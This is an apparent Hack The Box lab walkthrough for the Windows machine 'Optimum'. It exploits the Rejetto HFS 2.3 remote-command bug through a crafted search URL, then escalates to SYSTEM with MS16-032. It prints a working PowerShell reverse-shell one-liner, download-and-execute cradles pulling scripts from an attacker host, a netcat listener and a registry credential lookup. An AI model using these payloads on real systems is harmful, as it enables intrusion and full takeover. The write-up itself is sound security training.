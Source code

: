 # 🚀 HTB: Optimum

**Machine Info:**
- **IP**: `10.10.10.8`
- **OS**: [Windows Server 2012 R2 (64-bit)](Windows)
- **Difficulty**: [Easy](Easy)
- **Exploits Used**:
  - **RCE**: [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) – Rejetto HFS 2.3.x
  - **PrivEsc**: [CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099) – MS16-032

---

## 🧭 Recon

### 🔍 Full TCP Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.8
```

### 🎯 Service Detection
```bash
nmap -p 80 -sCV -oA scans/nmap-tcpscripts 10.10.10.8
```

**Result:**
- Port `80` open
- Service: `HttpFileServer 2.3`

---

## 🌐 [Web Recon – HFS](HTTP)

### 🕵️ Vulnerability Check
```bash
searchsploit httpfileserver
```

**Finding:**  
`Rejetto HttpFileServer 2.3.x - Remote Command Execution` → [CVE-2014-6287](https://www.exploit-db.com/exploits/49125)

---

## 🧨 Initial Access – kostas

### 🔧 Exploit Trigger (PowerShell Reverse Shell)
**Prep Nishang One-liner:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Start server:
```bash
python3 -m http.server 80
```

Trigger via encoded URL:
```http
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').}
```

### 🛰️ Netcat Listener
```bash
rlwrap nc -lnvp 443
```

**Shell Received:**
```powershell
whoami
optimum\kostas
```

### 🏁 User Flag
```powershell
type C:\Users\kostas\Desktop\user.txt.txt
```

---

## 🧱 Privilege Escalation – SYSTEM

### 🧬 Confirm Architecture
```powershell
[Environment]::Is64BitProcess
True
```

### 🪪 Credential Reuse
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
> Found: `kostas : kdeEjDowkS*` (but already logged in as kostas)

---

### 🔍 Kernel Exploit Enumeration – Sherlock
**Upload & execute:**
```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
Find-AllVulns
```

**Findings:**
- MS16-032 → CVE-2016-0099 – ✅ Vulnerable
- MS16-034 / MS16-135 → also show as potentially vulnerable

---

### 🧬 Exploit MS16-032

**Exploit Script Used:**
`Invoke-MS16032.ps1` (modified from [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1))

Append to script:
```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"
```

**Run from PowerShell:**
```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
```

### ⚡ SYSTEM Shell
```powershell
whoami
nt authority\system
```

### 🏁 Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧠 Lessons Learned

### 🪞 Initial Access
- HFS 2.3.x is vulnerable to RCE via `/?search=%00{.exec|...}`
- Using PowerShell cradles with `downloadString` is an effective and fast method to gain shells on legacy boxes.

### 🔓 PrivEsc Takeaways
- Kernel exploits like **MS16-032** remain valid for unpatched boxes.
- Use **Sherlock** or **Watson** (older machines might not support Watson’s .NET dependencies).
- Watch out for **process architecture** (32-bit shells won’t work for 64-bit kernel exploits).
